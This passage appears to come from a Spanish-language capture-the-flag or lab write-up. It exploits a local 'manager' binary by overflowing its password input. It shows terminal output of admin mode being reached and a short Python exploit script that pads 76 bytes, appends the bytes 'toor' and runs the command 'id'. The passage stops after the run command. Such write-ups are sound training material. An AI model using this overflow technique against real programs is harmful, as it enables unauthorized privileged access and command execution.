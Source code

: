 ```
############################################################
#      Sistema de Gestión - Modo Usuario/Admin             #                                                                                                 
############################################################                                                                                                 
                                                                                                                                                             
Escribe la contraseña: 
[+] Estás en modo administrador                                                                                                                              
                                                                                                                                                             
[+] Modo administrador activado.
Escribe un comando: 
```

Por lo que vemos funciono, por lo que solo tendremos que crear un pequeño script para automatizar todo esto, probaremos primero a ejecutar el comando `id`.

> exploit.py

```python
#!/bin/python3

import subprocess

offset = 76

RIP = b"A" * offset

root = b"\x74\x6f\x6f\x72"

command = b"id"

payload = RIP + root

program = ["./manager"]

process = subprocess.Popen(
    program, stdin=subprocess.PIPE
)

process.stdin.write(payload + b"\n")
process.stdin.flush()  # Aseguramos que el payload se envíe correctamente.

process.stdin.write(command + b"\n")
process.stdin.flush()

process.wait()
```

Si ahora ejecutamos esto, veremos lo siguiente:

```shell
python3 exploit.py
```
